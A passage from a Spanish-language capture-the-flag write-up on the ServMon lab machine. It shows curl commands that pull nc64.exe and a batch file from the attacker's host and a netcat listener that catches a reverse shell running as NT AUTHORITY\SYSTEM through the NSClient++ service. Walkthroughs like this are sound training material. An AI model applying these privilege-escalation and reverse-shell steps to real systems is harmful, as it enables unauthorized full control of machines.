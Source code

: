 ~~~bash
nadine@SERVMON C:\>cd temp

nadine@SERVMON C:\temp>curl http://10.10.14.4/nc64.exe -o nc64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45272  100 45272    0     0  45272      0  0:00:01 --:--:--  0:00:01 50867

nadine@SERVMON C:\temp>curl http://10.10.14.4/evil.bat -o evil.bat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53  100    53    0     0     53      0  0:00:01 --:--:--  0:00:01   121

nadine@SERVMON C:\temp>ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/28/2025  12:55 PM             51 evil.bat
-a----       10/28/2025  12:55 PM          38616 nc64.exe
~~~
Con ello ya se puede reiniciar el servicio.

![](servmon10.jpg)

Una vez haya terminado de reiniciar el servicio, yo debo abrir un escucha con mi maquina.
~~~bash
rlwrap -cAr nc -nvlp 443 
listening on [any] 443 ...
~~~
En teoria ya debaria obtener una conexión, pero no ocurre nada, asi que presionando todo lo que pude dentro de la pagina, al presionar la opcion "queries" se envio la reverseshell como autority system, no entiendo porque, pero funciono.
~~~bash
rlwrap -cAr nc -nvlp 443 
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.184] 49766
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
~~~

---